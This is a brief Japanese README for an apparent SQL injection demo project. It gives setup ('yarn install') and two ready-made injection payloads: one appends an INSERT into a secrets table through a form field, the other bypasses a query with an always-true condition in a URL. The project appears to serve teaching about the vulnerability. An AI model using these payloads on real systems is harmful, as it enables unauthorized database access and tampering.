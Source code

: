 # sqlInjection
# 使い方
# yarn installしてください
# 攻撃方法 1
# ','');insert into secret_usesrs (name, email) values ('injection', 'injection')--
# を書き込みのところに入力
# 攻撃方法 2
# hoge' AND email = 'name' OR 'x' = 'x';--
# をurlに貼り付け
